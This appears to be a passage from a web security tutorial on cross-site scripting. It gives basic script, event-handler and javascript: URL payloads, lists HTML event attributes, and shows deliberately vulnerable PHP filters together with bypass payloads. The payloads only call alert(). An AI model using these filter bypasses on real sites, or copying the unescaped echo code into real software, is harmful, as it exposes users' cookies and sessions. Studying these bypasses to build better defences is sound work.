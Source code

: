 ## 7. Cross Site Scripting (XSS)

![](https://miro.medium.com/v2/resize:fit:600/0*OgDrgZakNWFRIiIu.png)

**What is XSS attack?**

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. (Taken From OWASP)

**Simple 3 Ways to exeecute javascript in browser**

>Using Script Tag

```
<script>alert('Hello');</script>
```

>Using Events

```
<img src=noimg onerror=alert('Hello');>
```

>Call JavaScript Functions in URL

```
<a href='javascript:alert("Hello");'>Click me</a>
```

**HTML events that can be used to execute JavaScript**

```
onAbort
onBlur
onChange
onClick
onDblClick
onDragDrop
onError
onFocus
onKeyDown
onKeyPress
onKeyUp
onLoad
onMouseDown
onMouseMove
onMouseOut
onMouseOver
onMouseUp
onMove
onReset
onResize
onSelect
onSubmit
onUnload
onscroll
onbort
onmouseleave
oninput
```

## Bypass Methods

**Replacement Filter**

>Example PHP Code

```
<?php
$name = preg_replace('/script/i', '', $_GET['name']);
echo $name;
?>
```

>Bypass Payload (String in String)

```
<scrscriptipt>alert('Hello')</scrscriptipt>
```

**Bypass ()**

>Example PHP Code

```
<?php
$name = $_GET['name'];
$ban = array('\(', '\)');
foreach($ban as $banned){
while(preg_match( '/'.$banned.'/i', $name)){
$name = preg_replace('/'.$banned.'/i', '', $name);}}
echo $name; ?>
```

>Bypass Payload

```
alert`Hello`
```

**Tips For XSS**

>1. Allow Uploading HTML File Lead To XSS
